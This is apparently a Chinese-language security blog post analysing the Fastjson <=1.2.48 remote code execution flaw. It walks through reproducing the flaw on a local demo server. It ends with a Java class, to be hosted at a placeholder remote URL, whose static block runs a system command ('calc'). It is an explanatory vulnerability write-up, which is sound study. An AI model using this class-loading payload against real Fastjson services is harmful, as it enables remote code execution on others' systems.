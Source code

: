 ```yaml
---
layout: post
title:  "Fastjson<=1.2.48远程代码执行漏洞分析"
date:   2019-07-28 10:02:01 +0800
categories: 漏洞分析
tag: 远程代码执行漏洞
---
```


* content
{:toc}

### 一、漏洞描述

* 漏洞简介：fastjson是alibaba开源的一款高性能功能完善的JSON库，在2017年4月18日的时候官方自己爆出了一个安全漏洞，https://github.com/alibaba/fastjson/wiki/security_update_20170315，影响范围 1.2.24以及之前版本。随着逐步修复，1.2.42-45之间都出现过绕过。而最近爆出的更是通杀默认配置1.2.48版本以下。
* 漏洞编号：CNNVD-201907-699
* 影响版本：fastjson<1.2.51
* 漏洞等级：高危

### 二、漏洞复现

#### 2.1 漏洞靶场搭建

​	根据特定fastjson版本编写相关测试demo，这里我通过网上下载了一个，放到本地，启服务。

![fastjson]({{ '/styles/images/fastjson2/1.png' | prepend: site.baseurl  }})

#### 2.2 漏洞复现

1. 在浏览器访问相关地址：`http://localhost:8080/`

2. 在浏览器上配置代理，进行数据包拦截

   ![fastjson]({{ '/styles/images/fastjson2/2.png' | prepend: site.baseurl  }})

3. 重新转发数据包，将请求方法GET修改为POST，将content-type修改为`application/json`向其POST新的JSON对象，后端会利用fastjson进行解析。

   ![fastjson]({{ '/styles/images/fastjson2/3.png' | prepend: site.baseurl  }})

4. 首先编译并上传命令执行代码，如`http://XXXX/TouchFile.class`：

   ```java
   // javac TouchFile.java
   import java.lang.Runtime;
   import java.lang.Process;
   
   public class TouchFile {
       static {
           try {
               Runtime rt = Runtime.getRuntime();
               String[] commands = {"calc"};
               Process pc = rt.exec(commands);
               pc.waitFor();
           } catch (Exception e) {
               // do nothing
           }
       }
   }
   ```
